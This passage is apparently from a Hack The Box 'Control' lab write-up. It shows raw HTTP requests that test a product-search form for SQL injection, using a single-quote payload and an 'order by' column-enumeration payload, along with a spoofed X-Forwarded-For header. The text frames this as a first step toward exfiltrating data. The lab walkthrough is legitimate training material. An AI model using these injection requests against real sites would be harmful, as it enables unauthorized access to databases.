 

Now lets continuous with  "  '  " (single quote) as payload

```php
POST /search_products.php HTTP/1.1
Host: 10.10.10.167
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.10.167/admin.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 13
Connection: close
Upgrade-Insecure-Requests: 1
X-Forwarded-For: 192.168.4.28

productName=' 
```

<img src="/home/dumb/Documents/learn-notes/htb-writeups/control/control-burp-request-single-quoete.png" alt="control-burp-request-single-quoete" style="zoom:75%;" />



Its clearly that has a **sql injection** in the form.  We can continuous by hand or use **sqlmap**. Let do by hand, manually. The first thing we have to do is know how many columns has in the database. This information will be usefull for exfiltrate data.  We use reserver word **ORDER BY** from **mysql**. That word is used to sort the records of query. 

```php
POST /search_products.php HTTP/1.1
Host: 10.10.10.167
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.10.167/admin.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Connection: close
Upgrade-Insecure-Requests: 1
X-Forwarded-For: 192.168.4.28

productName=' order by 1 -- #
```

<img src="https://raw.githubusercontent.com/dumbx90/dumbx90.github.io/master/assets/img/commons/hackthebox/control/control-order-by-1.png" alt="control-order-by-1" style="zoom:75%;" />
